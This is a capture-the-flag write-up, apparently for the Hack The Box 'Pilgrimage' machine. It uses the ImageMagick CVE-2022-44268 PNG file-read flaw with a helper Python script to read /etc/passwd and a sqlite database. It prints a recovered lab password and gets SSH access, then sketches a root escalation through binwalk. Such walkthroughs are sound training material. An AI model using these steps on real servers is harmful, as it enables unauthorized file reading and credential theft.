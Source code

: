 The vulnerability presented in this version is a LFI(Local File Inclusion) which can read the contents of any file if magick has permission to read. The CVE-2022-44268 arises due to the mishandling of textual chunks within PNG files. Lets use the poc `https://github.com/voidz0r/CVE-2022-44268` (It is required to install png python package: `pip install pypng`).
Since it is time consuming to do all the steps when we want to read a file, we create the following script.

```python
import requests
import sys
import subprocess

# Write the shrunk file
file_id = sys.argv[1]
response = requests.get(file_id)
file = open("file.png", "wb")
file.write(response.content)
file.close()


# Get the Raw profile data
p = subprocess.run(["identify", "-verbose", "file.png"], stdout = subprocess.PIPE, 
        stderr = subprocess.PIPE)

raw_profile_data = str(p).split("Raw profile type:")[1].split("\\n\\n")[1].replace("\\n", "")#.split("\\n")
print(bytes.fromhex(raw_profile_data).decode())
```

Our technique works as follows:
1. Generate an image with the payload: `python3 CVE-2022-44268/CVE-2022-44268.py <file_here>`
2. Submit output in pilgrimage home page
3. Get the shrink link in: http://pilgrimage.htb/shrunk/651a87a32f890.png
4. Extract the file contents: `python3 get_file_info.py http://pilgrimage.htb/shrunk/651a87a32f890.png`

Looking at /etc/passwd we can see that we have one user: `emily:x:1000:1000:emily,,,:/home/emily:/bin/bash`
So, the next step is to find the password for it. Looking into the register.php we know that the application registers the users using a sqlite database stored as a file `  $db = new PDO('sqlite:/var/db/pilgrimage');`. Lets try to read the database and see if we can extract information from it.
Doing the previous explained process we get some errors, so we used [cyberchef](https://gchq.github.io/CyberChef/) with the option "from hex" and paste the all the hex characters. We extracted a password for the user emily: `abigchonkyboi123`. Trying it in the ssh `ssh emily@10.10.11.219` we get a shell and user flag!

## Privilege Escalation

Running linpeas we notice a strange script: `/usr/sbin/malwarescan.sh`. The bash script is running in a process as root and it seems like its listening the directory of `/var/www/pilgrimage.htb/shrunk/ ` for new files. This is done by `inotifywait` and it has a flag `-e created` which means that is only watching for created files. Then it runs `binwalk -e` in order to extract files from the image in order to find malware. Since root is running binwalk everytime a new file is crated, we can used this to escalate into root.

